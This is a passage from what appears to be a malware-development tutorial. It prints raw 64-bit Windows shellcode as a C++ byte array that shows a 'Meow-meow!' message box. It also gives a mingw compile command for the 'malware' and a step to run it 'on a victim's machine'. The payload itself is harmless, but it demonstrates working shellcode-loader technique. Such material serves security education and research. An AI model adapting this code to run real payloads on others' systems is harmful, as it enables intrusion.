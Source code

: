 ```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo 3

Let's go to see running shellcode in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack3.cpp -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
```

![injection](/assets/images/83/2022-12-21_22-21.png){:class="img-responsive"}    

Then, run on a victim's machine:    

```powershell
.\hack3.exe
```
